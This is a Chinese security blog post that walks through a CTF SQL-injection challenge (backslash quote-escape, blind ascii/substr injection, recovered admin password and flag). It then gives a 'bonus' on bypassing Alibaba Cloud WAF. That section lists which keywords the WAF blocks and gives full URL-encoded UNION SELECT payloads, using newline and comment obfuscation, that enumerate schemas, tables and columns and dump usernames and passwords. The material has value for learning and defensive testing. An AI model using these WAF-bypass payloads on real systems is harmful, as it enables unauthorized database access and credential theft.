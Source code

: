 #  【技术分享】SQL-FUZZ技巧及阿里云waf绕过方式

星云博创  [ 迪哥讲事 ](javascript:void\(0\);)

**迪哥讲事** ![]()

微信号 growing0101

功能介绍 作者主页: https://github.com/richard1230

____

___发表于_

收录于合集

#sql 5 个

#waf 2 个

#bug bounty 401 个

## **前言**

今天，我们通过一道赛题来与大家分享sql注入的绕过技巧。大家在攻防中经常会遇到各种厂商开源或者商用的waf产品，那么“如何进行合理的绕过”其实是红队攻击人员必备的素养。![]()

 **01     **尝试初步注入，发现很多字符已被过滤。在burp进行
fuzz，暴力破解模块跑sql注入的关键字字典，我们发现基本注入的可能性为0。因为该过滤的字符都已被过滤完毕，没有过滤的按空格substr ascii ^。
![]()

  

 **02  **扫描发现，robots.txt得到提示——hint.txt，访问 hint.txt。

select * from users where username='$_POST["username"]' and
password='$_POST["password"]';

此处知识点——\是转义符，可以对’”\进行转义，使其失去本来的特殊意义；同时，这里的\是没有被过滤。

 **03     **如果传入 username=admin\ password=123456#，就会变成：

select * from users where username='admin\' and password='123456#';

可以理解为：

select * from users where username='admin and password=' 恶意代码 #';

post username=admin\ password=^(ascii(substr(password,1,1))>1000)#

 **04     **开始进行构造初步payload。

![]()

当 2>4 时，显示 girl friend；

当 2>1 时，显示 BJD needs to be stronger。

  

此时已经闭合成功。接下来就是直接查询密码即可，因为当前页面就是所调用的用户表，所以直接查询即可。

![]()

 **05     **当盲注 payload 里的ascii值>200时，页面回显如下。

![]()

 **06     **书写脚本即可。

![]()

 **07     **最终爆出密码为OhyOuFOuNdit，账号为admin。

登录即可获取flag。

 **彩蛋：绕过阿里云fuzz过程分享**

 **当输入and 1=1拦截，waf处于生效状态。**![]()

1\. 首先进行逻辑符与部分sql注入关键字判断。

and 1=1 拦截

and -1=-1 拦截

and 不拦截

xor 1 异常

xor 0 正常

%26 1=2 异常

%26 1=1 正常

%26 hex(1) 正常

%26 hex(0) 异常

and hex() 不拦截

order by 不拦截

order by 1 拦截

group by 1 不拦截

2\. 完整SQL注入的攻击语法如下，可以使用%0A%20—进行绕过，并添加一些关键词。

 **sql攻击语法：**

 **#获取所有数据库名称**

http://cz.aliyun.lvluoyun.com:8080/Tkitn/sqli-labs-
master/Less-1/index.php?id=-1%27%20UNION%0A%20-%20%20%20%20%99%20%0A%0A%0ASELECT%201,2,concat%23%0a(schema_name)%20from%20%20/*like%22%0d%0a%20%2d%2d%20%0d%22*/%20%0d%0a%20INFORMATION_SCHEMA%0d%0a.schemata%20limit%204,1--+![]()

 **#获取当前数据库表名称**

Less-1/?id=-1%27%20UNION%0A%20--%20%20%20%20%99%20%0A%0A%0ASELECT%201,2,concat(table_name)%20from%20%20/*like%22%0d%0a%20%2d%2d%20%0d%22*/%20%0d%0a%20INFORMATION_SCHEMA%0d%0a.tables%20where%20table_schema=database()%20limit%201,1--+

 **#获取users表所有字段**

?id=-1%27%20UNION%0A%20--%20%20%20%20%99%20%0A%0A%0ASELECT%201,2,concat(column_name)%20from%20%20/*like%22%0d%0a%20%2d%2d%20%0d%22*/%20%0d%0a%20INFORMATION_SCHEMA%0d%0a.columns%20where%20table_name='users'%20limit%200,1--+

 **#获取数据**

?id=-1%27%20UNION%0A%20--%20%20%20%20%99%20%0A%0A%0ASELECT%201,2,concat(username,0x7e,password)%20from%20users%20limit%202,1--+

 **#通用用例列表：**

![]()

  

##  福利视频

笔者自己录制的一套php视频教程(适合0基础的),感兴趣的童鞋可以看看,基础视频总共约200多集,目前已经录制完毕,后续还有更多视频出品

https://space.bilibili.com/177546377/channel/seriesdetail?sid=2949374

## 技术交流

技术交流请加笔者微信:richardo1o1 (暗号:growing)

如果你是一个长期主义者，欢迎加入我的知识星球([优先查看这个链接，里面可能还有优惠券](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247489122&idx=1&sn=a022eae85e06e46d769c60b2f608f2b8&chksm=e8a61c01dfd195170a090bce3e27dffdc123af1ca06d196aa1c7fe623a8957755f0cc67fe004&scene=21#wechat_redirect))，我们一起往前走，每日都会更新，精细化运营，微信识别二维码付费即可加入，如不满意，72
小时内可在 App 内无条件自助退款

![]()

## 往期回顾

[2022年度精选文章  
](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247487187&idx=1&sn=622438ee6492e4c639ebd8500384ab2f&chksm=e8a604b0dfd18da6c459b4705abd520cc2259a607dd9306915d845c1965224cc117207fc6236&scene=21#wechat_redirect)

[SSRF研究笔记  
](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247486912&idx=1&sn=8704ce12dedf32923c6af49f1b139470&chksm=e8a607a3dfd18eb5abc302a40da024dbd6ada779267e31c20a0fe7bbc75a5947f19ba43db9c7&scene=21#wechat_redirect)

[xss研究笔记  
](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247487130&idx=1&sn=e20bb0ee083d058c74b5a806c8a581b3&chksm=e8a604f9dfd18defaeb9306b89226dd3a5b776ce4fc194a699a317b29a95efd2098f386d7adb&scene=21#wechat_redirect)

[dom-
xss精选文章](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247488819&idx=1&sn=5141f88f3e70b9c97e63a4b68689bf6e&chksm=e8a61f50dfd1964692f93412f122087ac160b743b4532ee0c1e42a83039de62825ebbd066a1e&scene=21#wechat_redirect)

[Nuclei权威指南-
如何躺赚](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247487122&idx=1&sn=32459310408d126aa43240673b8b0846&chksm=e8a604f1dfd18de737769dd512ad4063a3da328117b8a98c4ca9bc5b48af4dcfa397c667f4e3&scene=21#wechat_redirect)

[漏洞赏金猎人系列-
如何测试设置功能IV](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247486973&idx=1&sn=6ec419db11ff93d30aa2fbc04d8dbab6&chksm=e8a6079edfd18e88f6236e237837ee0d1101489d52f2abb28532162e2937ec4612f1be52a88f&scene=21#wechat_redirect)

[漏洞赏金猎人系列-
如何测试注册功能以及相关Tips](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247486764&idx=1&sn=9f78d4c937675d76fb94de20effdeb78&chksm=e8a6074fdfd18e59126990bc3fcae300cdac492b374ad3962926092aa0074c3ee0945a31aa8a&scene=21#wechat_redirect)

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

